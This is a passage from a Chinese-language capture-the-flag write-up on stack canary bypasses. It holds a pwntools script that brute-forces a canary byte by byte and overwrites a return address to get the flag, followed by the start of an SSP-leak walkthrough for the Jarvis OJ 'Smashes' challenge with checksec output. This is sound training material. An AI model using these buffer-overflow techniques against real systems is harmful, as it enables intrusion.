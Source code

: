 ```python

from pwn import *
context.log_level = 'debug'

cn = process('./bin')

cn.recvuntil('welcome\n')
canary = '\x00'
for j in range(3):
    for i in range(0x100):
        cn.send('a'*100 + canary + chr(i))
        a = cn.recvuntil('welcome\n')
        if 'recv' in a:
            canary += chr(i)
            break

cn.sendline('a'*100 + canary + 'a'*12 + p32(0x0804864d))

flag = cn.recv()
cn.close()
log.success('flag is:' + flag)
```

## 故意触发canary - ssp leak

这题可以参考jarvis oj中 smashes一题的解题方法中的前一半。

这里我偷个懒，直接把之前写的wp扔过来了，反正原理都在题里了。

题目描述：

> Smashes, try your best to smash!!!
>
> nc pwn.jarvisoj.com 9877
>
> [smashes.44838f6edd4408a53feb2e2bbfe5b229](https://dn.jarvisoj.com/challengefiles/smashes.44838f6edd4408a53feb2e2bbfe5b229)


首先查看保护

```bash
$ checksec pwn_smashes 
[*] '/home/veritas/pwn/jarvisoj/smashes/pwn_smashes'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

有canary，有nx
